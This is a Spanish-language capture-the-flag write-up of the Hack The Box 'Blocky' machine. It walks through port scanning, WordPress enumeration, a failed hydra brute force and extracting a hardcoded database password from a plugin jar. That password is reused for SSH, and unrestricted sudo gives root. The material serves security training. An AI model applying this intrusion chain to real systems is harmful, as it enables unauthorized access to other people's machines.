

# Blocky

<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>WordPress Enumeration</li>
        <li>Information Leakage</li>
        <li>Analyzing a jar file - JD-Gui +SSH Access</li>
        <li>Abusing Sudoers Privilege</li>
      </ul>
    </td>
  </tr>
</table>

## Enumeración basica 

Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allports
```

```shell
PORT   STATE SERVICE REASON
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguientes puertos encontrados:

```shell
nmap -sCV -p21,22,80,25565 10.10.10.245 -oN targeted
```

```shell
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Se puede apreciar que la versión de OpenSSH es vulnerable a la enumeración de usuarios sin embargo a priori no tenemos ningún usuario con el que probar.

## Enumeración de directorios 

Primero examinamos que es lo que contiene la página, podemos ver que nos encontramos ante un `Wordpress` 

```shell
whatweb http://10.10.10.37
http://10.10.10.37 [302 Found] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], RedirectLocation[http://blocky.htb], Title[302 Found]

http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]

```

Usando WFUZZ vamos a enumerar los diferentes directorios interesantes donde nos podemos encontrar algo.

```shell
wfuzz -c --hc=404,200 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://blocky.htb/FUZZ
```
Esta es la salida que recibimos:

```shell
000000241:   301        9 L      28 W       313 Ch      "wp-content"                                  
000000519:   301        9 L      28 W       310 Ch      "plugins"                                     
000000786:   301        9 L      28 W       314 Ch      "wp-includes"                                 
000001073:   301        9 L      28 W       313 Ch      "javascript"                                  
000000190:   301        9 L      28 W       307 Ch      "wiki"                                        
000007180:   301        9 L      28 W       311 Ch      "wp-admin"                                    
000010825:   301        9 L      28 W       313 Ch      "phpmyadmin"
```
Examinando los directorios nos encontramos con un panel de login de wordpress por lo tanto vamos a intentar comprobar si podemos enumerar algún usuario válido.

Para ello voy a utilizar `wpscan` es una herramienta que autmatiza la búsqueda pero es muy útil.

```shell
wpscan --url http://blocky.htb --enumerate u
```
Tras el escaneo encontramos un usuario válido `notch`

```shell
[i] User(s) Identified:
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```
Tras probar diferentes ataque de fuerza bruta con `hydra` con ese usuario y el diccionario `rockyou.txt`
no encontramos ninguna contraseña válida por lo tanto no puede ser por ahí.

## Investigamos los demás directorios /plugins

Tras investigar otros directorios encuentro en el directorio plugins dos ficheros que me puedo descargar.



Nos lo descargamos y probamos a ejecutarlo y ver que contiene.Si abrimos el archivo `BlockyCore.jar` utilizando la herramienta `jd-gui` nos encontramos con un fichero muy interesante.
```shell
js-gui BlockyCore.jar
```
```java 
package com.myfirstplugin;
public class BlockyCore {
  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  public void onServerStart() {}
  public void onServerStop() {}
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  public void sendMessage(String username, String message) {}
}
```
Contiene un usuario y una contraseña de una base de datos, posiblemente del `phpmyadmin`

```shell
user:root
passwd:8YsqfCTnvxAUeduzjNSXe22
```

Efectivamente es la contraseña de la base de datos , cuando entramos nos escontramos con varias tablas y una de `users` con un usuario:

```shell
user:root
passwd:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
## Intentando crackear el hash

Utilizando la herramienta `hashid` podemos identificar el tipo de hash para posteriormente intentar romperlo con `hashcat`

```shell
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
sin embargo vemos como no nos devuleve ningún resultado.

## Intrusión ssh

Otra opción es intentar acceder al servicio ssh con esta contraseña proporcionada tanto con `root` como con `notch`.

```shell
ssh notch@10.10.10.37
```
Vemos que podemos acceder por ssh usando las credenciales anteriores.

## Escalada de privilegios 

Para la escalada de privilegios hacemos el análisis habitual primero compruebo si puedo usar algún comando con sudo desde el usuario que estoy.

```shell
sudo -l 
```
```shell
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier comando con `sudo` por lo tanto la escalada es tan fácil como ejecutar el siguiente comando:

```shell
sudo -u root bash
```


